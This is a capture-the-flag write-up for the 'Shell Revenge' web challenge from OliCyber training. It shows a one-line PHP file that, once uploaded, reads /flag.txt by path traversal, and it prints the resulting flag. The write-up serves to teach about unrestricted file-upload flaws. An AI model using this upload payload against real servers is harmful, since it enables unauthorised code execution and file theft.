 ## Challenge Name: Shell Revenge
**Category:** Web

**Challenge Description:**

The time has come to say enough to the abuses of Super Mario! Koopa brothers, let's take back our freedom. Power to the shells!

The flag is located in /flag.txt

Website: http://shellrevenge.challs.olicyber.it

### Approach

The website let's you upload a file and let's you look it up on the server side.

Uploading the following [php code](/olicyber-training/web/Shell-revenge/solve.php) inside a .php file makes possible to retrive the flag at ```/flag.txt```

```php
<?php echo file_get_contents("../../../../../flag.txt"); ?>
```

**Flag**
```
flag{sh3l1_p0w3r_1s_k00p4_p0w3r}
```

### Reflections

This challenge underscores the risks associated with user-controlled file uploads, demonstrating how a malicious user could exploit such features to execute arbitrary code on the server. 

---
<a href="/olicyber-training/main.md" class="btn">Back to home</a>


